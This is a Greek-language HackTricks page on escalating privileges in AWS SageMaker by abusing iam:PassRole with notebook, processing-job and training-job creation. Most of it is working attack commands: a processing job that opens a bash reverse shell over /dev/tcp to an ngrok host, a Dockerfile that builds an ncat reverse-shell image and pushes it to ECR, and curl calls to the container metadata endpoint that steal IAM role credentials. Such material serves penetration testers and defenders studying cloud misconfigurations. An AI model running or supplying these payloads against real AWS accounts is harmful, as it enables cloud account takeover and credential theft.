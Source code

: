 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{{#include ../../../banners/hacktricks-training.md}}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Αρχίστε να δημιουργείτε ένα notebook με τον IAM Ρόλο που είναι συνδεδεμένος σε αυτό:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Η απάντηση θα πρέπει να περιέχει ένα πεδίο `NotebookInstanceArn`, το οποίο θα περιέχει το ARN της νεοδημιουργημένης παρουσίας σημειωματάριου. Στη συνέχεια, μπορούμε να χρησιμοποιήσουμε το API `create-presigned-notebook-instance-url` για να δημιουργήσουμε μια διεύθυνση URL που μπορούμε να χρησιμοποιήσουμε για να αποκτήσουμε πρόσβαση στην παρουσία σημειωματάριου μόλις είναι έτοιμη:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Πλοηγηθείτε στη διεύθυνση URL με τον περιηγητή και κάντε κλικ στο \`Open JupyterLab\` στην επάνω δεξιά γωνία, στη συνέχεια, μετακινηθείτε προς τα κάτω στην καρτέλα “Launcher” και κάτω από την ενότητα “Other”, κάντε κλικ στο κουμπί “Terminal”.

Τώρα είναι δυνατή η πρόσβαση στα διαπιστευτήρια μεταδεδομένων του IAM Role.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που καθορίζεται.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Εάν υπάρχουν Jupyter **notebooks που εκτελούνται ήδη** σε αυτό και μπορείτε να τα καταγράψετε με `sagemaker:ListNotebookInstances` (ή να τα ανακαλύψετε με οποιονδήποτε άλλο τρόπο). Μπορείτε να **δημιουργήσετε μια διεύθυνση URL γι' αυτά, να τα αποκτήσετε και να κλέψετε τα διαπιστευτήρια όπως υποδεικνύεται στην προηγούμενη τεχνική**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που είναι συνημμένος.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να κάνει **το sagemaker να εκτελέσει ένα processingjob** με έναν ρόλο sagemaker συνημμένο σε αυτό. Ο επιτιθέμενος μπορεί να υποδείξει τον ορισμό του κοντέινερ που θα εκτελείται σε μια **AWS managed ECS account instance**, και **να κλέψει τα διαπιστευτήρια του συνημμένου IAM ρόλου**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που καθορίζεται.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες θα είναι σε θέση να δημιουργήσει μια εργασία εκπαίδευσης, **τρέχοντας ένα αυθαίρετο κοντέινερ** σε αυτήν με έναν **συνδεδεμένο ρόλο**. Επομένως, ο επιτιθέμενος θα είναι σε θέση να κλέψει τα διαπιστευτήρια του ρόλου.

> [!WARNING]
> Αυτό το σενάριο είναι πιο δύσκολο να εκμεταλλευτεί από το προηγούμενο γιατί χρειάζεται να δημιουργήσετε μια εικόνα Docker που θα στείλει το rev shell ή τα creds απευθείας στον επιτιθέμενο (δεν μπορείτε να υποδείξετε μια αρχική εντολή στη ρύθμιση της εργασίας εκπαίδευσης).
>
> ```bash
> # Δημιουργία εικόνας docker
> mkdir /tmp/rev
> ## Σημειώστε ότι η εργασία εκπαίδευσης θα καλέσει ένα εκτελέσιμο που ονομάζεται "train"
> ## Γι' αυτό βάζω το rev shell στο /bin/train
> ## Ορίστε τις τιμές του <YOUR-IP-OR-DOMAIN> και <YOUR-PORT>
> cat > /tmp/rev/Dockerfile <<EOF
> FROM ubuntu
> RUN apt update && apt install -y ncat curl
> RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
> RUN chmod +x /bin/train
> CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
> EOF
>
> cd /tmp/rev
> sudo docker build . -t reverseshell
>
> # Ανεβάστε το στο ECR
> sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
> sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> ```
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που καθορίζεται.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες θα (πιθανώς) μπορεί να δημιουργήσει μια **εργασία εκπαίδευσης υπερπαραμέτρων**, **τρέχοντας ένα αυθαίρετο κοντέινερ** σε αυτήν με έναν **συνδεδεμένο ρόλο**.\
&#xNAN;_&#x49; δεν έχω εκμεταλλευτεί λόγω έλλειψης χρόνου, αλλά φαίνεται παρόμοιο με τις προηγούμενες εκμεταλλεύσεις, μη διστάσετε να στείλετε μια PR με τις λεπτομέρειες εκμετάλλευσης._

## Αναφορές

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{{#include ../../../banners/hacktricks-training.md}}
